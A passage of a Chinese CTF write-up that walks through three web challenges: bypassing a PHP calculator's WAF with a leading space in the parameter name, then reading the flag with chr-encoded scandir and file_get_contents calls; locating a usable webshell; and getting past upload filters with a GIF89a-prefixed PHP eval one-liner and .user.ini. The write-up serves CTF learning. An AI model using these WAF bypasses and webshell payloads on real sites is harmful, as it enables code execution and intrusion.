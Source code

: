 假如waf不允许num变量传递字母：
`http://www.xxx.com/index.php?num = aaaa   //显示非法输入的话`
那么我们可以在num前加个空格：
`http://www.xxx.com/index.php? num = aaaa`
这样waf就找不到num这个变量了，因为现在的变量叫“ num”，而不是“num”。但php在解析的时候，会先把空格给去掉，这样我们的代码还能正常运行，还上传了非法字符。

在calc.php得到源码
![](https://img-blog.csdnimg.cn/20200314114323822.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
用`? num`可绕过waf检测,并执行了php语句
![](https://img-blog.csdnimg.cn/20200314115540936.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
接下来要查看目录文件
![](https://img-blog.csdnimg.cn/20200314114954676.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
构造`? num=1;var_dump(scandir(chr(47)))`char(47)是 / 的ascii码，也可以用`hex2bin(dechex(47))`
![](https://img-blog.csdnimg.cn/20200314115818726.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
得到了f1agg，我们查看文件即可
![](https://img-blog.csdnimg.cn/202003141201118.png)
构造 `? num=1;var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))`
![](https://img-blog.csdnimg.cn/20200314120225868.png)

可参考文章：[利用PHP的字符串解析特性Bypass](https://www.freebuf.com/articles/web/213359.html)

## [强网杯 2019]高明的黑客
先下载源码，然后看师傅的wp
![](https://img-blog.csdnimg.cn/20200314140807296.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
下载源码，打开是几千个php文件，而且很乱，根本没法看，不过里面包含很多shell，那么我们就要找到有用的shell。
利用师傅脚本得到有用的shell即可，

[强网杯upload&&高明的黑客&&随便注 复现](https://www.cnblogs.com/BOHB-yunying/p/11555858.html)

## [SUCTF 2019]CheckIn
### 方法一：正常文件上传
上传php文件返回：非法后缀
![](https://img-blog.csdnimg.cn/20200314142731740.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
上传.htaccess返回exif_imagetype:not image
![](https://img-blog.csdnimg.cn/20200314142857215.png)
上传xxx.jpg返回<? in contents!
![](https://img-blog.csdnimg.cn/20200314143021170.png)
接下来是我的上传误区！！！
把一句话改为如下进行上传，成功过滤<?
`GIF89a`
`<script language="php">@eval($_POST['pass']);</script>`
![](https://img-blog.csdnimg.cn/20200314144324648.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
那么试着改文件类型将.htaccess上传
![](https://img-blog.csdnimg.cn/20200314144204606.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
上传都成功了，试着访问发现：失败。查看wp发现：htaccess有局限性，只能是apache
这里有新的知识点：
.user.ini。它比.htaccess用的更广，不管是nginx/apache/IIS，只要是以fastcgi运行的php都可以用这个方法。
